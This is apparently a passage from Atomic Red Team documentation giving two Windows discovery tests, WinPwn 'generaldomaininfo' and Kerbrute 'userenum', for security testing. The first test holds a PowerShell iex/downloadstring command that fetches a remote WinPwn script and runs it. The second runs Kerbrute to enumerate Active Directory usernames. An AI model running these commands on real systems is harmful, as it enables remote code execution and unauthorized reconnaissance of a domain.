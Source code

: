 




<br/>
<br/>

## Atomic Test #15 - WinPwn - generaldomaininfo
Gathers general domain information using the generaldomaininfo function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ce483c35-c74b-45a7-a670-631d1e69db3d






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
generaldomaininfo -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #16 - Kerbrute - userenum
Enumerates active directory usernames using the userenum function of Kerbrute

**Supported Platforms:** Windows


**auto_generated_guid:** f450461c-18d1-4452-9f0d-2c42c3f08624





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Domain | Domain that is being tested against | string | $env:USERDOMAIN|
| DomainController | Domain Controller that is being tested against | string | $env:UserDnsDomain|


#### Attack Commands: Run with `powershell`! 


```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe userenum -d #{Domain} --dc #{DomainController} "PathToAtomicsFolder\..\ExternalPayloads\username.txt"
```
